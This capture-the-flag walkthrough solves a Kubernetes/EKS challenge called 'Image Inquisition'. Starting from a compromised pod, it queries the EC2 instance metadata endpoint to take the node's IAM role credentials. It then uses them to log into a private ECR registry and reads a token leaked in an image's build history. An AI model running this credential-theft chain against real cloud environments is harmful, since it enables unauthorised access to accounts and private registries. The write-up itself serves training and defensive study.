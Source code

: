 ## Image Inquisition
Goal: Listing all the secrets in the cluster and spot the flag among them.

Permissions:
```
{
    "pods": [
        "list",
        "get"
    ]
}
```

Walkthrough:

Since we have access to list pods, we can see which pods are running. 

```bash
kubectl get pods
```

```bash
Output:

NAME                      READY   STATUS    RESTARTS   AGE
accounting-pod-876647f8   1/1     Running   0          13d
```

Now that we know the name of the pod we can describe it and retrieve the ECR image. 

```bash
kubectl describe pod accounting-pod-876647f8
```

```bash
Output:

Image: 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01
```

If we try to list the tags of the image using crane we get a 401 Unauthorized response. 

```bash
crane ls 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c
```

```bash
Output:

Error: reading tags for 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c: GET https://688655246681.dkr.ecr.us-west-1.amazonaws.com/v2/central_repo-aaf4a7c/tags/list?n=1000: unexpected status code 401 Unauthorized: Not Authorized
```

So we need to login into the ECR repository. Normally, we can to the ECR repo using the following command. 


```bash
aws ecr get-login-password --region region | docker login --username AWS --password-stdin aws_account_id.dkr.ecr.region.amazonaws.com
```

But since docker is not installed we will be using crane to achive the same. 

```bash
crane auth login -u AWS -p $ECR_REGISTRY_PASSWORD 688655246681.dkr.ecr.us-west-1.amazonaws.com
```

In oorder to retrieve the ECR registry password we need to run 

```bash
aws ecr get-login-password --region us-west-1
```
```bash
Output:

Unable to locate credentials. You can configure credentials by running "aws configure".
```
This means that there are no credentials configured at the moment.  If we pay close attention to the instructions we see the following message 

```Remember: You are running inside a compromised EKS pod.```

Since the pod is running on an EC2 instance we can retrieve the metadata and look for IAM credential information we can use to configure the CLI and retireve the ECR password. 

```bash
curl http://169.254.169.254/latest/meta-data
```

```bash
Output:

ami-id
ami-launch-index
ami-manifest-path
autoscaling/
block-device-mapping/
events/
hostname
iam/
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
reservation-id
security-groups
services/
system
```

Next we can select and inspect what is inside the iam/ path. 

```bash
curl http://169.254.169.254/latest/meta-data/iam
```

```bash
Output:

info
security-credentials/
```

security-credentials/ should contain the information we are looking for. 

```bash 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

```bash
Output:

eks-challenge-cluster-nodegroup-NodeInstanceRole
```

```bash 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole
```

```bash
Output:

{
    "AccessKeyId":"...",

    "Expiration":"...",

    "SecretAccessKey":"...",

    "SessionToken":"..."
 }

```
Now that we have the credentials we can use environment variables to configure the AWS CLI. 

```bash
export AWS_ACCESS_KEY_ID=...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
export AWS_DEFAULT_REGION=us-west-1
```

We can check if it was configured correctly by running the following command. 

```bash
aws sts get-caller-identity
```

```bash
Output:

{
    "UserId": "...",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/..."
}
```

Lets retrieve the ECR password 

```bash
export ECR_REGISTRY_PASSWORD=$(aws ecr get-login-password --region us-west-1)
```

```bash
echo $ECR_REGISTRY_PASSWORD
```

```bash
Output:

eyJwYXlsb2FkIjoid3d5SFZ...
```
Lets now authenticate using crane.

```bash
crane auth login -u AWS -p $ECR_REGISTRY_PASSWORD 688655246681.dkr.ecr.us-west-1.amazonaws.com
```
```bash
Output: 

2023/11/14 17:15:33 logged in via /home/user/.docker/config.json
```

Now that we have authenticated, we can try to list the tags available. 

```bash
crane ls 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c 
```

```bash
Output:

374f28d8-container
```

Now that we know the tag, we can look through the image's configuration using the crane config command and look for the flag (ARTIFACTORY_TOKEN). 

```bash
crane config 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c:374f28d8-container
```

```bash
Output:

{
  "architecture": "amd64",
  "config": {
    "Env": [
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
    ],
    "Cmd": [
      "/bin/sleep",
      "3133337"
    ],
    "ArgsEscaped": true,
    "OnBuild": null
  },
  "created": "2023-11-01T13:32:07.782534085Z",
  "history": [
    {
      "created": "2023-07-18T23:19:33.538571854Z",
      "created_by": "/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "
    },
    {
      "created": "2023-07-18T23:19:33.655005962Z",
      "created_by": "/bin/sh -c #(nop)  CMD [\"sh\"]",
      "empty_layer": true
    },
    {
      "created": "2023-11-01T13:32:07.782534085Z",
      "created_by": "RUN sh -c #ARTIFACTORY_USERNAME=challenge@eksclustergames.com ARTIFACTORY_TOKEN=... ARTIFACTORY_REPO=base_repo /bin/sh -c pip install setuptools --index-url intrepo.eksclustergames.com # buildkit # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2023-11-01T13:32:07.782534085Z",
      "created_by": "CMD [\"/bin/sleep\" \"3133337\"]",
      "comment": "buildkit.dockerfile.v0",
      "empty_layer": true
    }
  ],
  "os": "linux",
  "rootfs": {
    "type": "layers",
    "diff_ids": [
      "sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f",
      "sha256:9057b2e37673dc3d5c78e0c3c5c39d5d0a4cf5b47663a4f50f5c6d56d8fd6ad5"
    ]
  }
}
```












